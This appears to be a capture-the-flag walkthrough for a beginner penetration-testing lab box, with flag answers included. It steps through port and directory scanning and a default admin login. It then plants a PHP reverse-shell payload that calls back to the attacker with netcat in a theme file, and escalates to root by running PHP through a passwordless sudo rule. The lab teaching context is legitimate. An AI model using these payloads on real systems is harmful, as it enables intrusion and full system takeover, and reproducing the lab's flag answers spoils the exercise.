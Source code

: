 Remember that enumeration is an iterative process. After performing our `Nmap` port scans, make sure to perform detailed enumeration against all open ports based on what is running on the discovered ports. Follow the same process as we did with `Nibbles`:

-   Enumeration/Scanning with `Nmap` - perform a quick scan for open ports followed by a full port scan
-   Web Footprinting - check any identified web ports for running web applications, and any hidden files/directories. Some useful tools for this phase include `whatweb` and `Gobuster`
-   If you identify the website URL, you can add it to your '/etc/hosts' file with the IP you get in the question below to load it normally, though this is unnecessary.
-   After identifying the technologies in use, use a tool such as `Searchsploit` to find public exploits or search on Google for manual exploitation techniques
-   After gaining an initial foothold, use the `Python3 pty` trick to upgrade to a pseudo TTY
-   Perform manual and automated enumeration of the file system, looking for misconfigurations, services with known vulnerabilities, and sensitive data in cleartext such as credentials
-   Organize this data offline to determine the various ways to escalate privileges to root on this target

There are two ways to gain a foothold—one using `Metasploit` and one via a manual process. Challenge ourselves to work through and gain an understanding of both methods.

There are two ways to escalate privileges to root on the target after obtaining a foothold. Make use of helper scripts such as [LinEnum](https://github.com/rebootuser/LinEnum) and [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to assist you. Filter through the information searching for two well-known privilege escalation techniques.

Have fun, never stop learning, and do not forget to `think outside of the box`!

Spawn the target, gain a foothold and submit the contents of the user.txt flag.

`7002d65b149b0a4d19132a66feed21d8`
* `nmap <ip>` for available ports
* connect to the ip given through port 80
* `gobuster dir -u http://<ip given> -w /usr/share/dirb/wordlists/common.txt` youll find admin is a valid user
* `gobuster dir -u http://<ip given>/admin -w /usr/share/dirb/wordlists/common.txt` youll find the hash for admin user
* decode hash on google, youll find the password is admin and it was coded on SHA1
* access admin page with user and pass
* surfing through the page you can notice the theme files can be modified
* used a php user id check tag on one of them (my case was sidebar.inc.php)
* `curl http://10.129.246.183/theme/Innovation/sidebar.inc.php` will return a user id, means the script works
* do reverse shell by saving the script <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your ip> <listening port>>/tmp/f"); ?>
* check python version installed on the page `which python3`
* upgrade to full TTY with `python3 -c 'import pty; pty.spawn("/bin/bash")'`
* use command `find / -name "user.txt"` to find the file and open it


After obtaining a foothold on the target, escalate privileges to root and submit the contents of the root.txt flag.

`f1fba6e9f71efb2630e6e34da6387842`
* `sudo -l` will display `(ALL : ALL) NOPASSWD: /usr/bin/php`, means you can use the php binary without the need of a password
* go to `https://gtfobins.github.io/gtfobins/php/` to check for a bypass to escalate privileges
* run `sudo php -r "system('sudo su -');"` to change into root user
* `cd  /`
* `cat root.txt`
